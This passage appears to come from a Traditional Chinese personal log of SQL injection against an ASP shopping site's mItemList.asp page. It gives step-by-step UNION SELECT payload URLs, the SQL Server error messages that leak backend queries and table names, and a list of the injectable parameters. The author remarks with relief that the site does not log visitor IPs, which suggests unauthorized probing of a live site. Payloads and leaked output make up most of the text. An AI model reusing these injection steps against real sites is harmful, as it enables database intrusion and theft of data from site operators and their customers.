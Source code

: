 
總共 23 個欄位

6. `mItemList.asp?ClsId=&ClsUpId=456456%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty=`

```
INSERT INTO OnlineSearchLog (KeyWord,OnlineRoomId,PriceMin,PriceMax,RecCount,Page,CreateTime,Creater,Log) VALUES ('123123','',0,0,1,1, GetDate(),'','ClsId=&ClsUpId=456456%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--&Name=123123&PriceMax=&PriceMin=0&RoomId=&orderby=2&page=1&sty=')<br>[Microsoft][ODBC SQL Server Driver][SQL Server]字串或二進位資料會被截斷。
```

巨煩，查詢資料還會 Append Log，看來是 Log 長度踩到上限。還好沒有記 IP，Creater 看起來是空字串

7. `mItemList.asp?ClsUpId=%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--&Name=qwe`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]使用 UNION、INTERSECT 或 EXCEPT 運算子結合的所有查詢，其目標清單中的運算式數量必須相等。<hr>select b.Id as ClsUpId,b.Name as ClsUpName,c.ID as RoomId,c.Name as RoomName from ClsUp b left join OnlineRoom c on b.OnlineRoomId=c.ID where b.Id='' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--'
```

我把一些查詢條件拿掉後，欄位突然變少了

```sql
select
b.Id as ClsUpId,
b.Name as ClsUpName,
c.ID as RoomId,
c.Name as RoomNam
```

8. `mItemList.asp?ClsUpId=%27%20UNION%20SELECT%20NULL,NULL,NULL,NULL--`

```
[Microsoft][ODBC SQL Server Driver][SQL Server]使用 UNION、INTERSECT 或 EXCEPT 運算子結合的所有查詢，其目標清單中的運算式數量必須相等。<hr>exec ssp_search_page 'SELECT top 100 percent t.OrderId,t.ScdId,t.PrvId,t.OnlineRoomId,t.ClsUpId,t.ClsId,t.ROWID,t.Id,t.Name,t.urlName,t.ImgFile,t.ClsName,t.SizeName,t.SpcPrice,t.AdvPrice,t.Qty,t.IconTopPic,t.IconTitle,  ROUND((Case I.swDicPrice WHEN 1 THEN I.Price ELSE ( Case  WHEN I.PriceF <= 15 THEN  CEILING((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) ELSE ((dbo.GetOnlinePrvdDiscount(I.PrvdId)) * I.PriceF) END )  END ) ,0) As MemberPrice, ROUND( I.PriceF , 0) As FixedPrice,  ROUND( I.Price , 0) As SalePrice,  ROUND(I.Price,0) As GroupPrice,  ROW_NUMBER() OVER (ORDER BY ROWID) as _RowId from TmpProductItem as t with(nolock) , item as i   where i.id=T.id   and t.ClsUpId='''' UNION SELECT NULL,NULL,NULL,NULL--'' ORDER BY ISNull(t.Qty, 0) DESC, Id ','1','20'網站忙碌中請稍後
```

啊，我知道了，這邊的 `ClsUpId` 應該是會添加到多個 SELECT 的 SQL 語法，所以沒辦法用 UNION 一次滿足

querystring 有的欄位

```
ClsId
ClsUpId
Name
PriceMax
PriceMin
RoomId
orderby
page
sty
```
